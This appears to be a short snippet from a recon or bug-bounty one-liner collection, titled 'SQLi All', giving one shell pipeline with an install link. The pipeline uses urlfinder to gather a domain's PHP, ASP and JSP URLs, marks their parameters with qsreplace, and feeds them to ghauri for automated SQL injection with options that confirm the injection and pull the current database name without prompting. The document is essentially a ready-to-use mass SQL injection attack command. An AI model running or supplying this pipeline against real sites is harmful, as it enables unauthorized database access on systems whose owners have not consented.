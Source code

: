 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --current-db --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a></p>
